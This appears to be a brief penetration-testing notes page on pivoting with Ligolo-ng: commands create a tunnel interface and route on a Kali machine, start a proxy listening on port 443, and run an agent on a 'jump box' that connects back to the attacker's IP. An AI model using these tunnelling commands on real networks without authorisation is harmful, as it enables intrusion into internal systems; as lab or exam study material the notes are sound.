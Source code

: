 
on kali machine:

```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add $TARGET_IP_2ND.0/24 dev ligolo
./ligolo-proxy -selfcert -laddr 0.0.0.0:443
```

```shell
session
#select session
start
```

on jump box:
```bash
./ligolo-agent -connect $KALI_IP:443 -ignore-cert
```